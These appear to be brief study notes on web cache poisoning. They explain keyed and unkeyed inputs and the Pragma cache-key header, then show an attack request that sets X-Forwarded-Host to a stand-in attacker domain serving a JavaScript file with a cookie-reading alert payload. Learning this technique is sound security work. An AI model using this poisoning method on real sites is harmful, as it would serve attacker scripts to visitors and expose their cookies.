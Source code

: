 # how a cache key looks like:

protocol|method|host|/path?key=value

http[s]|GET|some-wbsite.com|/api/help?lang=en

which are saved in cache key are known as keyed input and other are known as unkeyed inputs


unkeyed inputs are for example: `token, referrer or user-agent`

note: how to find cached part of the HTTP-request
> Pragma: x-get-cache-key


GET / HTTP/1.1
Host: somewebsite.com
>Pragma: x-get-cache-key
...
...

-----------------------------

GET / HTTP/1.1
Host: somewebsite.com
X-Forwarded-Host: evilwebsite.com
...
...

evilwebsite.com/js/tracking.js

alert(documetn.cookie)
